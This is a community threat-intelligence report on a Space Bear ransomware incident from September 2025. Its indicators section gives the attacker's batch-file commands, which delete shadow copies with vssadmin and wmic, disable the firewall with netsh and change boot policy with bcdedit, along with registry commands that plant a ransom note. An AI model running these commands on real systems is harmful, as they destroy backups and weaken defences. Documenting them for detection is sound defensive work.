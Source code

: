 # Community Report 008 - Space Bear September 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Space Bear
```
---
### Incident Details
```
- Time of Incident: September 2025
- Victim Sector: N/A
- Victim Country: USA
- Victom Size: N/A
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|  |  | Defender Control |  |  |  | bcedit |  |
|  |  |  |  |  |  | fsutil |  |
|  |  |  |  |  |  | netsh |  |
|  |  |  |  |  |  | wmic |  |
|  |  |  |  |  |  | VmConnect  |  |
|  |  |  |  |  |  | vssadmin |  |

---
### Indicators of Compromise (IOCs)
```
Process Chain / Command Lines:

- C:\driver\backup.bat
  - wmic SHADOWCOPY DELETE
  - vssadmin  Delete Shadows /All /Quiet
  - bcdedit  /set {default} bootstatuspolicy ignoreallfailures
 

- C:\driver\SCdel.bat
  - vssadmin delete shadows /all
  - netsh advfirewall set allprofiles state off

- C:\driver\LockScreen.bat
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticecaption /t REG_SZ /d "ATTENTION!!! Read Before Login" /f
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticetext /t REG_SZ /d "Your system has been hacked !!! Your system files are encrypted and uploaded to our servers. An attempt to recover files on your own will result in their complete loss. You urgently need to notify the management of your company about the incident. Mail for communication: [REDACTED] ONLY WE have the recovery keys, before agreeing on the cost from the data recovery companies, ask OUR price" /f

Staging:
- C:\driver\

Ransomware Binary:
- C:\driver\mkp_visual.exe
```
---
#### Any Related Sources
| Date Published | Report |
|---|---|
| N/A | N/A |
